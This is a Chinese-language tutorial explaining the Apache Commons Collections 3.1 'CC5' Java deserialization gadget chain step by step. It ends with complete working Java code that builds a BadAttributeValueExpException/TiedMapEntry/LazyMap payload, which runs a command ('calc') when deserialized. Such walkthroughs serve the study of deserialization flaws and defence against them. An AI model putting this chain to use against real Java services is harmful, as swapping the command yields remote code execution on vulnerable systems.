CC5
CC5链
漏洞位于org.apache.commons.collections.functors.InvokerTransformer 方法transform 测试版本为3.1

这里明显的java反射，拿到input对象的类，在通过获取方法iMethodName() 并且传入参数iArgs
Class cls = input.getClass();
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
return method.invoke(input, this.iArgs);
通俗点讲就是：
...
input.iMethodName(iArgs);
// input为传入的对象
其他的参数this.iMethodName this.iParamTypes this.iArgs 在构造函数可控

正常流程的代码执行，并且国际惯例调用计算器
import org.apache.commons.collections.functors.InvokerTransformer;
public class CC5_demo {
public static void main(String[] args) {
InvokerTransformer invokerTransformer;
invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
invokerTransformer.transform(Runtime.getRuntime());
}
}
InvokerTransformer()为重载构造方法。这里传入的三个值说明:
- 方法名，类型String
- 方法参数类型，类型Class数组
- 执行的命令 参数对象
为什么要getRuntime()? 因为Runtime类的设计采用的是单例设计模式 所以想得到当前运行的Runtime对象,需要通过 getRuntime 方法获取

扩展
在反序列化中 会自动执行readObject()方法，构建InvokerTransformer对象还需要解决
invokerTransformer.transform()怎么去执行 ?Runtime.getRuntime()呢？
在org.apache.commons.collections.functors.ChainedTransformer 中 方法transform 有链式调用

iTransformers为Transformer[]数组 通过遍历调用transform()方法 并传入对象

而Transformer则是接口

并且InvokerTransformer类实现了这个接口，这是一个点

如果我们放入多个InvokerTransformer到Transformer数组,在给ChainedTransformer#transform() for循环多次反射调用，在java自动类型转换中容量小的数据类型可以自动转换为容量大的数据类型
我们把每个步骤放入到Transformer[] , 根据这个顺序进行：
((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
ConstantTransformer()类构造方法 很方便，开始就不需要自己传Runtime了

- 通过
InvokerTransformer#transform拿到getMethod()方法自己本身，以此类推获取invoke()方法 new Class[0]表示空的数组，new Object[0]也是， 都表示取得无参构造方法 可以避免抛出空异常
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.xpath.operations.String;
public class CC5_demo {
public static void main(String[] args) throws Exception{
Transformer[] transformers;
transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers);
}
}
那么ChainedTransformer#transform()如何去调用呢？
org.apache.commons.collections.map.LazyMap#get中调用了transform()

查看factory字段符合要求。虽然factory是protected final ,但是构造方法提供set 无伤大雅, 而且decorate()方法还是Public修饰
LazyMap.decorate() ==> new LazyMap() ==> 构造方法LazyMap() ==> 设置变量

构建代码 ：
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
// map.get(1); 只需要调用get触发反应 弹出计算器了
问题又来了 如何触发org.apache.commons.collections.map.LazyMap#get方法呢？
在 org.apache.commons.collections.keyvalue.TiedMapEntry#getValue 方法接受map并且执行get , 设置好变量在调用toString()即可
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
private static final long serialVersionUID = -8453869361373831205L;
private final Map map;
private final Object key;
public TiedMapEntry(Map map, Object key) {
this.map = map;
this.key = key;
}
public Object getKey() {
return this.key;
}
public Object getValue() {
return this.map.get(this.key);
}
... 中间Code 忽略 ...
public String toString() {
return this.getKey() + "=" + this.getValue();
}
}
构建：
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
TiedMapEntry key = new TiedMapEntry(map, "key"); // TiedMapEntry对象
那toString()呢？ 知道java反序列化会自动执行readObject()方法，存在 readObject()去调用toString()呢。
jdk中存在一个异常类 BadAttributeValueExpException 它的readObject方法可以实现

条件是 判断System.getSecurityManager()为空触发，跟踪发现默认就是null
直接构建：
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
// 实例化类
Field field = badAttributeValueExpException.getClass().getDeclaredField("val"); // 反射拿到属性
field.setAccessible(true); // 设置为可访问私有属性
field.set(badAttributeValueExpException, key); // 设置对象和对象参数，填入上面的key也就是TiedMapEntry对象
byte[] bytes = Serializables.serializeToBytes(badAttributeValueExpException);
Serializables.deserializeFromBytes(bytes); // 反序列化触发
完整Code:
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.chabug.util.Serializables;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class CC5_demo {
public static void main(String[] args) throws Exception {
Transformer[] transformers;
transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers);
HashMap hashmap = new HashMap();
Map map = LazyMap.decorate(hashmap, chain);
TiedMapEntry key = new TiedMapEntry(map,"key");
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException, key);
byte[] bytes = Serializables.serializeToBytes(badAttributeValueExpException);
Serializables.deserializeFromBytes(bytes);
}
}
